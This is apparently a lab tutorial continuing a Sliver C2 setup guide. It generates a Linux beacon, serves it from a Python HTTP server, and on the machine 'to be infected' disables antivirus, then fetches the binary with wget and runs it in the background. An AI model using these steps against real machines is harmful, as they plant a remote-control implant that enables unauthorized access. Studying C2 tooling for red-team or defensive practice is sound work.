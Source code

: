 
# How To Create a C2 Server Using Sliver (Linux - Linux)


This tutorial is a continuation to the README for going from a Linux Host to a Linux Client instead of Linux Host -> Windows Client

## Server

All instructions up to this point are the same, except the way the beacon is generated. To generate for Linux instead of Windows, run this command with these flags:

`generate beacon -b YOURIP:8080 --os linux -a x86`

* The -os flag can be `mac` or `linux` and
* The -a flag is `x86` or `arm` (depending on your machine)

This will generate the binary for your Linux machine, and you can continue on in this guide for the remaining steps

## Serve Up Executable

The next step is somewhat up to personal preference and can be done in countless ways. The way I will be covering will be using python, but you can also use apache or any other http protocol file server of your choice. This step doesn't even need to necessarily be done using HTTP, as there are also DNS, TCP, and other methods of transferring this executable, but HTTP is the simplest, so that's the one we went with.

To start a webserver using python, first check that you have python installed on your machine (it does not need to be python3).

I would *highly recommend* hosting this server as a background process using & so that you can reopen sliver, although you could also run this server inside a container or on another page of your terminal if your machine supports that.

If you have python3, you can run this command: `python3 -m http.server &`. If you have a valid internet connection, you should get a response saying your machine is now hosting on 0.0.0.0:8000.

If you do not have python3, you can run this command: `python -m SimpleHTTPServer &`.

Both of these methods should result in the same outcome, with a simple http server hosting the files on your current directory.

## Client (To Be Infected)
Now that we have a file server on our Linux machine that is serving up the executable file, we can move on to our Windows Machine.
> Note the infected machine can also be a Linux machine, but it will not have some of the same features as a Windows client


### Disable Anti-Virus Protections
If you have any pre-existing antivirus protection, you will most likely need to disable them for this demonstration.

### Open Server on Any Internet Browser (or using wget)

Next, open any internet browser (if you have one) or use wget to access the file server that was previously opened in the Serve Up Executable step.

Using an internet browser, go to `http://LINUX_SERVER_IP:8000` and download the executable.

However, because some Linux distributions do not come prepackaged with an internet explorer (or UI at all), we will also be covering how to use wget.

### WGET
To use wget, type in your terminal:
`wget http://LINUX_SERVER_IP:8000/*YOURBINARYFILE*`

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/4e65b523-a057-4081-a879-824d2ae8e5e5)

This should install the file to the directory you are currently in.

Give the script executable permissions using `chmod 777 *NAME_OF_BINARY*`

Then, simply run the binary in the background with `./*NAME_OF_BINARY* &`

Your Linux machine should now appear in your beacons!

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/60ad21d3-25a4-4fa9-9beb-08cc266bb48c)


Now, you can continue back to the original guide starting at 'The Door's Open, Now What?' in the [README](README.md)
